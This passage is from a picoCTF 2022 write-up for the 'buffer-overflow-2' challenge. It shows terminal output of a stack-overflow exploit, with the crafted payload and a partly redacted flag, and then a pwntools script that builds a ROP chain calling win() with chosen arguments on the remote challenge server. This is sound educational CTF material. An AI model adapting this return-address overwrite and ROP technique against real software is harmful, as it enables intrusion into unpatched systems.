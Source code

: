 <figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="meta prompt_">$ </span>python3 buffer-overflow-2.py REMOTE
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 3988
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code
-11 (SIGSEGV) (pid 3988)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffca3290
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
\xf0\xfe\xcadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua-<br>aaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04r\x93\x04
picoCTF{argum3nt5_4_d4yZ_<span style="color:#696969"><b>[REDACTED]</b></span>}
</pre></td></tr></table></figure>

### II: The Easy Way 🐇

But... what if you wanted to be an even **more** lazy pwner? Well, you're in luck, because I present to you: the **[pwntools ROP object](https://docs.pwntools.com/en/stable/rop/rop.html)**! By throwing our elf object into `ROP()` it transforms, and we can use it to automatically call functions and build chains! Here it is in action:

{% codeblock buffer-overflow-2-automated.py lang:py https://gist.github.com/jktrn/a5bfe03bdf5b2d766ef5fa402e9e35d6 <span style="color:#82C4E4">[github gist link]</span> %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln' checksec=False)    # sets elf object
rop = ROP(elf)                                         # creates ROP object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # creates local process w/ elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parses core dump file

rop.win(0xCAFEF00D, 0xF00DF00D)                        # Call win() with args
payload = fit({cyclic_find(core.eip): rop.chain()})    # pad ROP chain

if args.REMOTE:
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()
{% endcodeblock %}

